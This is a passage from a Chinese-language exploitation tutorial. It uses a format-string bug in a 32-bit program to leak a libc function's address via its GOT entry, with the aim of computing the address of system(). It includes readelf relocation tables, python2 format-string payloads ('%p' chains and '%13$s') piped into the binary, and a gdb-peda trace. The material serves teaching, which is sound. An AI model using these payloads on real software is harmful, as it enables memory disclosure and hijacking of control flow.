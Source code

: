 
当然这也没有什么用，我们真正经常用到的地方是，把程序中某函数的 GOT 地址传进去，然后获得该地址所对应的函数的虚拟地址。然后根据函数在 libc 中的相对位置，计算出我们需要的函数地址（如 `system()`）。如下面展示的这样：

先看一下重定向表：

```text
$ readelf -r a.out

Relocation section '.rel.dyn' at offset 0x2e8 contains 1 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ffc  00000206 R_386_GLOB_DAT    00000000   __gmon_start__

Relocation section '.rel.plt' at offset 0x2f0 contains 4 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a010  00000307 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a014  00000407 R_386_JUMP_SLOT   00000000   putchar@GLIBC_2.0
0804a018  00000507 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```

`.rel.plt` 中有四个函数可供我们选择，按理说选择任意一个都没有问题，但是在实践中我们会发现一些问题。下面的结果分别是 `printf`、`__libc_start_main`、`putchar` 和 `__isoc99_scanf`：

```text
$ python2 -c 'print("\x0c\xa0\x04\x08"+".%p"*20)' | ./a.out
.0x1.0x88888888.0xffffffff.0xffe22cfa.0xffe22d04.0x80481fc.0x80484b0.0xf77afa54.0x1.0x424155d0.0x4443.(nil).0x2e0804a0.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025
$ python2 -c 'print("\x10\xa0\x04\x08"+".%p"*20)' | ./a.out
.0x1.0x88888888.0xffffffff.0xffd439ba.0xffd439c4.0x80481fc.0x80484b0.0xf77b6a54.0x1.0x4241c5d0.0x4443.(nil).0x804a010.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e
$ python2 -c 'print("\x14\xa0\x04\x08"+".%p"*20)' | ./a.out
.0x1.0x88888888.0xffffffff.0xffcc17aa.0xffcc17b4.0x80481fc.0x80484b0.0xf7746a54.0x1.0x4241c5d0.0x4443.(nil).0x804a014.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e
$ python2 -c 'print("\x18\xa0\x04\x08"+".%p"*20)' | ./a.out
▒.0x1.0x88888888.0xffffffff.0xffcb99aa.0xffcb99b4.0x80481fc.0x80484b0.0xf775ca54.0x1.0x424125d0.0x4443.(nil).0x804a018.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e
```

细心一点你就会发现第一个（`printf`）的结果有问题。我们输入了 `\x0c\xa0\x04\x08`（`0x0804a00c`），可是 13 号位置输出的结果却是 `0x2e0804a0`，那么，`\x0c` 哪去了，查了一下 ASCII 表：

```text
Oct   Dec   Hex   Char
──────────────────────────────────────
014   12    0C    FF  '\f' (form feed)
```

于是就被省略了，同样会被省略的还有很多，如 `\x07`（'\a'）、`\x08`（'\b'）、`\x20`（SPACE）等的不可见字符都会被省略。这就会让我们后续的操作出现问题。所以这里我们选用最后一个（`__isoc99_scanf`）。

```text
$ python2 -c 'print("\x18\xa0\x04\x08"+"%13$s")' > text
$ gdb -q a.out
Reading symbols from a.out...(no debugging symbols found)...done.
gdb-peda$ b printf
Breakpoint 1 at 0x8048350
gdb-peda$ r < text
[----------------------------------registers-----------------------------------]
EAX: 0xffffd584 --> 0x804a018 --> 0xf7e3a790 (<__isoc99_scanf>: push   ebp)
EBX: 0x804a000 --> 0x8049f14 --> 0x1
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd618 --> 0x0
ESP: 0xffffd54c --> 0x8048520 (<main+138>:      add    esp,0x20)
EIP: 0xf7e27c20 (<printf>:      call   0xf7f06d17 <__x86.get_pc_thunk.ax>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
```